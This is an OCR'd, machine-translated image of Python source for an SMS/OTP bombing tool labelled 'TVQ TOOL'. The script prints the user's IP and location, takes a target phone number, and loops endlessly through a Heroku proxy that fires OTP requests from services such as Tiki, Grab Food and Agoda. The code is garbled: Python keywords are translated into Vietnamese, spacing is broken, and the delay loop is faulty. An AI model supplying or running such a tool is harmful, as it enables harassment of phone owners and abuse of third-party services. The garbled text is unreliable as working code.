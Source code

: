 từ nhập pystyle Thêm, Trung tâm, Anime, Màu sắc, Tô màu, Viết, Hệ thống
từ tiêu đề đầu tuần nhập lịch
từ lúc nhập giấc ngủ
yêu cầu nhập khẩu
stt = 0
từ lúc nhập giấc ngủ
yêu cầu nhập khẩu
nhập hệ điều hành, hệ thống, yêu cầu, ngẫu nhiên
thời gian nhập khẩu
từ lựa chọn nhập ngẫu nhiên, randint, shuffle
thử:
  từ Trung tâm nhập khẩu pystyle, Anime, Màu sắc, Màu sắc
ngoại trừ:
  os.system ('pip cài đặt pystyle')  
logo = "" "
  █████ █ ██▓██ ██▓▓█████▄▄▄█████▓
▒██▓ ██▒ ██ ▓██▒▒██ ██▒▓█ ▀▓ ██▒ ▓▒
▒██▒ ██░▓██ ▒██░ ▒██ ██░▒███ ▒ ▓██░ ▒░
░██ █▀ ░▓▓█ ░██░ ░ ▐██▓░▒▓█ ▄░ ▓██▓ ░
░▒███▒█▄ ▒▒█████▓ ░ ██▒▓░░▒████▒ ▒██▒ ░
░░ ▒▒░ ▒ ░▒▓▒ ▒ ▒ ██▒▒▒ ░░ ▒░ ░ ▒ ░░   
 ░ ▒░ ░ ░░▒░ ░ ░ ▓██ ░▒░ ░ ░ ░ ░    
   ░ ░ ░░░ ░ ░ ▒ ▒ ░░ ░ ░      
    ░ ░ ░ ░ ░ ░        
                  ░ ░ "" "      
in (Màu. Hình lục giác (Colors.red_to_yellow, Center.XCenter (logo)))      
Write.Print ('============================================= ============================== '+' \ n ', Colors.red_to_yellow, khoảng = 0,005)
Write.Print ('Bản Quyền: Trần Văn Quyết' + '\ n', Colors.red_to_yellow, khoảng = 0,005)
Write.Print ('============================================= ============================== '+' \ n ', Colors.red_to_yellow, khoảng = 0,005)
ip = request.get ('https://api.ipify.org') .text.strip ()
loc = request.get ('https://ipapi.com/ip_api.php?ip=' + ip, headers = {'Referer': 'https://ip-api.com/', 'Content-Type' : 'application / json; charset = utf-8', 'User-Agent': 'Mozilla / 5.0 (Linux; Android 7.1.2; Redmi 4X) AppleWebKit / 537.36 (KHTML, như Gecko) Chrome / 77.0.3865.92 Mobile Safari /537.36 '}). Json () [' country_name ']. Low ()
Write.Print ('IP của bạn:' + ip + '\ n', Colors.red_to_yellow, khoảng = 0,005)
Write.Print ('============================================= ============================== '+' \ n ', Colors.red_to_yellow, khoảng = 0,005)
Write.Print ('Vị trí:' + loc + '\ n', Colors.red_to_yellow, khoảng = 0,005)
Write.Print ('============================================= ============================== '+' \ n ', Colors.red_to_yellow, khoảng = 0,005)
phone = Write.Input ("Import SDT (Lưu Ý Bỏ Số 0 Ở Đầu):", Colors.red_to_yellow, khoảng = 0,005)
time_delay = Write.Input ('Time Delay:', Colors.red_to_yellow, khoảng = 0,005)
Write.Print ('============================================= ============================== '+' \ n ', Colors.red_to_yellow, khoảng = 0,005)
trong khi Đúng:
    stt = stt + 1
    request.get (f'https: //howtospamsms.herokuapp.com/the-gioi-di-dong? phone = {phone} ')  
    Write.Print (f "[{stt}] [TVQ TOOL] => Sen OTP The-Gioi-Di-Dong" + "" + phone + "\ n", Colors.red_to_yellow, khoảng = 0,005)
    
    stt = stt + 1
    request.get (f'https: //howtospamsms.herokuapp.com/nhap-hang-247? phone = {phone} ')
    Write.Print (f "[{stt}] [TVQ TOOL] => Sen OTP Nhap-Hang-247" + "" + phone + "\ n", Colors.red_to_yellow, khoảng = 0,005)
    
    stt = stt + 1
    request.get (f'https: //howtospamsms.herokuapp.com/elines? phone = {phone} ')
    Write.Print (f "[{stt}] [TVQ TOOL] => Sen OTP Elines" + "" + phone + "\ n", Colors.red_to_yellow, khoảng = 0,005)
    
    stt = stt + 1
    request.get (f'https: //howtospamsms.herokuapp.com/meta-vn? phone = {phone} ')
    Write.Print (f "[{stt}] [TVQ TOOL] => Sen OTP Meta-VN" + "" + phone + "\ n", Colors.red_to_yellow, khoảng = 0,005)
    
    stt = stt + 1
    request.get (f'https: //howtospamsms.herokuapp.com/bach-hoa-xanh? phone = {phone} ')
    Write.Print (f "[{stt}] [TVQ TOOL] => Sen OTP Bách-Hoa-Xanh" + "" + phone + "\ n", Colors.red_to_yellow, khoảng = 0,005)
    
    stt = stt + 1
    request.get (f'https: //howtospamsms.herokuapp.com/grab-food? phone = {phone} ')
    Write.Print (f "[{stt}] [TVQ TOOL] => Sen OTP Grab-Food" + "" + phone + "\ n", Colors.red_to_yellow, khoảng = 0,005)
    
    stt = stt + 1
    request.get (f'https: //howtospamsms.herokuapp.com/tiki? phone = {phone} ')
    Write.Print (f "[{stt}] [TVQ TOOL] => Sen OTP Tiki" + "" + phone + "\ n", Colors.red_to_yellow, khoảng = 0,005)
    
    stt = stt + 1
    request.get (f'https: //howtospamsms.herokuapp.com/go2joy? phone = {phone} ')
    Write.Print (f "[{stt}] [TVQ TOOL] => Sen OTP Go2joy" + "" + phone + "\ n", Colors.red_to_yellow, khoảng = 0,005)
    
    stt = stt + 1
    request.get (f'https: //howtospamsms.herokuapp.com/vntrip? phone = {phone} ')
    Write.Print (f "[{stt}] [TVQ TOOL] => Sen OTP Vntrip" + "" + phone + "\ n", Colors.red_to_yellow, khoảng = 0,005)
    
    stt = stt + 1
    request.get (f'https: //howtospamsms.herokuapp.com/agoda? phone = {phone} ')
    Write.Print (f "[{stt}] [TVQ TOOL] => Sen OTP Agoda" + "" + phone + "\ n", Colors.red_to_yellow, khoảng = 0,005)
    
    stt = stt + 1
    request.get (f'https: //howtospamsms.herokuapp.com/vieon? phone = 0 {phone} ')
    Write.Print (f "[{stt}] [TVQ TOOL] => Sen OTP Vieon" + "" + phone + "\ n", Colors.red_to_yellow, khoảng = 0,005)
    cho tôi trong phạm vi (120, 0):
            print (f "Vui lòng đợi {i} \ r")
